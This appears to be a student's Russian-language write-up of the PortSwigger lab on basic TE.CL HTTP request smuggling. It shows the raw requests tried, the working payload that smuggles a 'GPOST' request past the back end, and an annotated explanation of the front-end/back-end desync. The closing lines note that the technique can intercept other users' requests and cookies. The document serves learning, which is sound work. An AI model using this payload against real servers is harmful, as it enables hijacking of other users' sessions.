


лаба
https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

внутренний сервер не поддерживает фрагментированное кодирование

задача:
переадресуйте запрос на внутренний сервер, чтобы следующий запрос, обработанный внутренним сервером, отображался с использованием этого метода `GPOST` типо  нессуществующий метод - тогда сервак должен выдать ошибку - мол метода не бывает такого
придется менять с HTTP / 2 на HTTP / 1

----
сразу усстановил расширение в бурп [HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling)

------

так как лаба про  TE.CL - то нужно http 1.1
а сам запрос к главной стр сайта:
```http
GET / HTTP/2
Host: 0a6b00d004022b14847dd22600000039.web-security-academy.net
Cookie: session=dqXMsgE5mWfk4W4XpX1zWxfxImRwEl7h
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6b00d004022b14847dd22600000039.web-security-academy.net/post?postId=6
```

--------
поменял на HTTP/1.1




выключил авто обновление CL 



-------------
убираю куки

добавляю заголовки

Content-Type: application/x-www-form-urlencoded  > - это тип данных (MIME-тип) данные из HTML-формы, закодированные>

Content-length: 4
Transfer-Encoding: chunked


------
запрос
```http
POST / HTTP/1.1
Host: 0a6b00d004022b14847dd22600000039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 14
Transfer-Encoding: chunked

qwerty
```

ответ
```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 24

{"error":"Read timeout"}
```

наверно - это хороший знак так как
возможно серв ждал продолжение запроса после qwerty чтобы дополнить запрос до 14 байт

--------

```http
POST / HTTP/1.1
Host: 0a6b00d004022b14847dd22600000039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
ответ снова 400 {"error":"Read timeout"}

-----
далее я добавил еще один перенос строки:

так как это первая моя лаба по котробанде -
 то подглядел решение:


```http
GPOST / HTTP/1.1
Host: 0a6b00d004022b14847dd22600000039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

5c в шестнадцатеричной системе = 92 в десятичной
Это число означает ровно столько байтов, сколько занимает твоя "внутрянка" - то есть весь тот кусок, который ты хочешь протащить мимо бэкенда
то есть то - че идет после 5с как раз таки и составляет 92 символа - то есть 5с

#### лаба решена

отправил такой запрос дважды - и лаба решена - получил в ответе
```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```
##### обязательно два переноса строки после ноля
##### 5c - это  92 байта
##### GPOST - чтобы спецом вызвать ошибку
#####


## детальный разбор всего!

```http
POST / HTTP/1.1       [1] Внешний запрос
Host: 0a6b00d...49.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4                [2] Длина для бэкенда (CL)
Transfer-Encoding: chunked       [3] Признак чанков для фронтенда (TE)

5c                    [4] Размер первого чанка (92 байта)
GPOST / HTTP/1.1      [5] Начало "внутрянки" — method GPOST (gpost - несуществ метод)
Content-Type: application/x-www-form-urlencoded
Content-Length: 15            [6] Длина тела "внутрянки" (x=1 — это 3 байта, но мы пишем 15)
                              
x=1       [7] Тело "внутрянки" (3 байта)
0         [8] Признак конца всех чанков для фронтенда
          [9] Пустая строка (обязательно!)
```


#### обьяснение

здесь фронт в первую очередь случается TE    (Transfer-Encoding) 
поэтому - он видит - chunked и понимает, что запрос частями будет  (те чанками/ кусками)

потом в параметрах видит 5c - что означает 92 байта
и все что ниже в пределах 92 символов (или пока не встретит 0) все это фронт считает параметрами запроса
и со спокойной душой отправляет это дело серверу!


а вот сам бек уже (рассинхронизирован с фронтом) и слушается только  Content-length: 4
где сказано - что длинна параметров равно 4 байта всего лишь
и он считает эти байты по порядку
первое что он видит э то `5c\r\n`  (то есть перенос строки это уже для него 2 байта + (5с = 2 байта) ) итого на `5c\r\n` - запрос кончается! отлично!!
и сервер закрывает этот запрос!

но так как серверу были переданые еще и 
эти данные - которые фрон отдал ему
```http
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
то сервер и их теперь пытается обработать
Бэкенд не считает их частью текущего запроса. 
Он просто оставляет их в буфере открытого соединения и ждет следующего запроса по этому же соединению. 
ПОЭТОМУ НУЖНО ТУТ ЖЕ ОТПРАВИТЬ И ВТОРОЙ ЗАПРОС - и тогда второй запрос дополнит вот эти остатки запроса и вернет их мне!
Это и есть "отравленное" соединение


------

то есть на первый запрос - я получил 200 и полностью обычную стр блога!
а вот второй запрос я уже отправил - и этим запросом я дополнил тот оставшийся кусок http запроса который висел в буфере открытого соединения! и дополненый этот запрос вернулся отбратно туда - откуда и пришел - то есть мне! таким образом , даже если бы ктото другой перешел на этот же сайт - тогда я бы смог перехватить его запрос и все куки и все че там есть!!!

--------

